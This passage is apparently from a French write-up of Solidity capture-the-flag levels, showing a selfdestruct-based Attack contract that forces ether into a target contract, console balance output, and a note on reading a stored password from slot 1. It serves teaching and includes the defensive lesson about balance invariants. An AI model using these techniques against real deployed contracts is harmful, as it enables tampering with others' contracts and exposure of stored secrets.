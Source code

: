 > More details about these alternatives can found for example here: https://medium.com/@alexsherbuck/two-ways-to-force-ether-into-a-contract-1543c1311c56

Nous allons alors créer un smart contract, lui envoyer des ethers, puis appeler la fonction `selfdestruct()` qui va détruire notre smart contract et envoyer nos ether à notre cible. 

> The only way to remove code from the blockchain is when a contract at that address performs the `selfdestruct` operation. The remaining Ether stored at that address is sent to a  designated target and then the storage and code is removed from the  state. Removing the contract in theory sounds like a good idea, but it  is potentially dangerous, as if someone sends Ether to removed  contracts, the Ether is forever lost.

### Attaque

Notre smart contract va recevoir des ether, puis on appel la fonction `kill()`.

```javascript
contract Attack {
    
    uint256 public money;
    
    constructor() public payable {
        money = money + msg.value;
    }
    
    function kill() public payable {
        selfdestruct(0xa4d6d05221c2c11b467a9a916d1a867386f2978a);
    }
}
```

```javascript
> await getBalance(contract.address)
"0"

> await getBalance(contract.address)
"0.000000000000000001"
```

> In solidity, for a contract to be able to receive ether, the fallback function must be marked 'payable'.
>
> However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `this.balance == 0` for any contract logic.



---

## 8 - Vault

---

> **TL;DR**
>
> Lire un mot de passe présent sur le slot numéro 1 en utilisant `myth`.
